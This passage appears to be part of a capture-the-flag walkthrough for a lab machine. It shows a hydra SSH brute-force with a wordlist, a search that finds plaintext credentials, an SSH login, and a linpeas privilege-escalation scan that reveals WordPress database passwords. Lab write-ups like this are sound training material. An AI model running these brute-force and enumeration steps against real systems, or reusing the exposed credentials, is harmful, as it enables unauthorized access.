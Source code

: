 The /home path shows one user "aubreanna" so let's use this to crack ssh using hydra:

```sh
hydra -l aubreanna -P rockyou.txt 10.10.156.30 ssh
```

In parallel we can look for files containing "aubreanna":

```sh
find ./ -type f -iname "*.txt" -exec grep -l "aubreanna" {} \; 2>/dev/null
./opt/wp-save.txt
cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```

So let's login via aubreanna: ```ssh aubreanna@10.10.156.30``` and we find the first flag (user.txt) in the home dir.

Unfortunantly ```sudo -l``` is not allowed

```sh
aubreanna@internal:~$ sudo -l
[sudo] password for aubreanna:
Sorry, user aubreanna may not run sudo on internal.
aubreanna@internal:~$ id
uid=1000(aubreanna) gid=1000(aubreanna) groups=1000(aubreanna),4(adm),24(cdrom),30(dip),46(plugdev)
```

Let's try running linpeas on the system to find something interesting:

From the Kali system

```sh
wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
scp linpeas.sh aubreanna@10.10.156.30:~/linpeas.sh
```

On the target machine as aubreanna:

```sh
chmod +x linpeas.sh
./linpeas.sh
```

Interessting finds are the mysqladmin credentials:

```log
╔══════════╣ Analizing Wordpress Files (limit 70)
-rw-r--r-- 1 root root 3109 Aug  3  2020 /var/www/html/wordpress/wp-config.php
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wordpress' );
define( 'DB_PASSWORD', 'wordpress123' );
define( 'DB_HOST', 'localhost' );
```
